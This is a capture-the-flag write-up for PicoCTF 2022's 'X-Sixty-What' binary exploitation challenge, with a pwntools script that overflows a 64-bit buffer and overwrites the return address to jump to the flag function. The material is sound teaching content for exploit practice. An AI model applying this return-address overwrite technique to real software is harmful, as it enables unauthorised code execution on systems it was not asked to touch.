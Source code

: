 ```yaml
---
name: X-Sixty-What (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for X-Sixty-What (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# X-Sixty-What

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2358 "Pico CTF 2022: X-Sixty-What")

## Description

> Most problems before this are 32-bit x86. Now we’ll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 72

payload = flat(
    b'A' * padding,
    0x40123b
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```
